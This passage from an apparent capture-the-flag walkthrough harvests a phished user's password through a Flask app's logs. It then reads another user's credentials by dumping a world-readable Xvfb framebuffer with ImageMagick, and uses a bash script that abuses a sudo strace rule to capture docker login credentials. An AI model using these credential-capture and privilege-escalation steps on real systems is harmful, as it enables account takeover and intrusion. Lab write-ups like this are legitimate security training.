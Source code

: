 ```python
    password = request.form.get("password") or request.json.get("password")
    app.logger.info(
        f"Received login: user_name={user_name}, password={password}"
    )
    return redirect(url_for("serve_index"))
if __name__ == "__main__":
    app.run(ssl_context=("server.crt", "server.key"), debug=True)
```
After sending the email, you can view the credentials of **tom_summers** in the flask app logs. Use these credentials to log in via ssh and claim your flag.

## Pivot
While enumerating processes, you can observe three running under the user **tom_summers_admin**:
```
/bin/sh -c /provision/cron/tom_summers_admin/text-editor.sh

/usr/bin/Xvfb :1 -fbdir /xorg/xvfb -screen 0 512x256x24 -nolisten local
```
Inspecting the `/xorg/xvfb` directory reveals the file **Xvfb_screen0**. This file contains a pixel-by-pixel representation of what **tom_summers_admin** is viewing. It's world-readable, meaning any user can dump and inspect its contents.

You can use the **ImageMagick** tool to extract and visualize the screen contents. To do this, download the AppImage version, upload it to the target, extract it, and dump the screen with the following commands:
```
./magick --appimage-extract

head -c $((512*256*4)) /xorg/xvfb/Xvfb_screen0 > screen.raw

./squashfs-root/usr/bin/magick -depth 8 -size 512x256 rgba:screen.raw output.png
```
> `512x256` is the screen resolution, and `4` refers to the RGBA channels.

By inspecting the resulting image (`output.png`), you can retrieve the credentials for **tom_summers_admin**.

This user is allowed to execute certain `sudo` commands as **rebecca_smith**:
```
docker login
strace -s 128 -p [0-9]*
```
-   The first command, `docker login`, attempts to authenticate to dockerhub using any cached credentials.
    
-   The second, `strace`, allows attaching to a running process to trace system calls.
> Note: The `[0-9]*` pattern here is a wildcard, **not** a regex. It means that the command accepts any extra argument that begins with a number—so options like `-f` (follow forks) are also allowed.

Because the credential read occurs very early during the execution of `docker login`, running `strace` manually after the command has started would miss it. To catch the full interaction, a script can be used to launch and trace the login process from the beginning.
``` bash
#!/bin/bash
sudo -u rebecca_smith /usr/bin/docker login &
pid=""
while [ -z "$pid" ]; do
  pid=$(pgrep -u rebecca_smith -f "/usr/bin/docker login")
done
sudo -u rebecca_smith /usr/bin/strace -s 128 -p $pid -f -e trace=read
```
After obtaining the credentials for **rebecca_smith**, you can launch `pspy` to monitor scheduled tasks and analyze system activity. In the logs, you’ll notice a cron job running periodically to reset the credentials for the user **ash_winter**.
